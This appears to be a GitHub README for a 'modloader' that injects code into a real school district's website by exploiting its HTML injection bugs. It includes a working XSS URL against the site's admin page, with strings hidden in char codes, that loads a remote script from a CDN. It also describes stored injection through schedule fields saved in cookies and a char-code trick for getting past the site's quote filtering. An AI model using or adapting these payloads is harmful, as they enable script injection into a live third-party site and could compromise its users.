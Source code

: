 # RHS-Modloader
An extension for the RHS website allowing you to install plugins and code. This is done by taking advantage of multiple HTML injection bugs in the website.

Supported on every device. An electron app will also be added to the releases tab at some point.
The Modloader itself will automatically update, but the electron app might need some app level changes to push to releases

***-- COOKIES WILL NOT WORK ON DAYS WITHOUT SCHOOL --***

(If you prefer a longer link that is much more stable with no install, go [here]())

# Installation Instructions

-- This will be changed to allow for a one-click install, removing the install process and making it easier for the end user. --
This is outdated, as an update is being developed to remove this nessecity.

As of right now, while it is less automatic, copying the code manaully is much more stable than attempting to change the domain's cookies, so this is reccomended for the time being.

1. Go to the [RHS Modloader website](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=%3Cscript%3Einstall=String.fromCharCode(115,99,114,105,112,116);replace=String.fromCharCode(104,116,116,112,115,58,47,47,99,100,110,46,106,115,100,101,108,105,118,114,46,110,101,116,47,103,104,47,80,111,121,114,97,122,79,122,107,117,115,97,107,115,105,122,47,82,72,83,45,77,111,100,108,111,97,100,101,114,64,109,97,115,116,101,114,47,105,110,115,116,97,108,108,101,114,46,106,115);var%20scriptTag%20=%20document.createElement(install);scriptTag.src%20=%20replace;document.body.appendChild(scriptTag);%3C/script%3E) and click "Copy Code Manually".

2. Go back to the official RHS Website and edit your schedule. If school is not happening on that day, you can change the date by adding ``?date=(year)-(month)-(day)`` to the end of the URL. 

*Month and day must be two digit, so for example use "03" instead of "3"*

3. To the end of every period name, paste the code you have copied. If that period is not present on a day, the code for it will not run. While putting it on 3 or 4 periods would also work for most days, there are some days with weird schedules. If done correctly, you won't see the code again.

# How this works

I have found two ways to add HTML onto the RHS website:

- Through the admin website
- By storing HTML in cookies

These are both forms of XSS as they allow self script injection.

The admin login for the RHS Website lets you directly add code to it using the [URL's error message](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=%3Ch1%3EHello%20RHS!%3C/h1%3E),
and the main website allows it through the schedule tab, which just adds it on as plain text. This is also stored as cookies instead of in the URL, where your schedule is also stored.

While both of these don't like it when you add code directly (they cancel quotes), making strings from char codes is a very nice alternative and runs well.
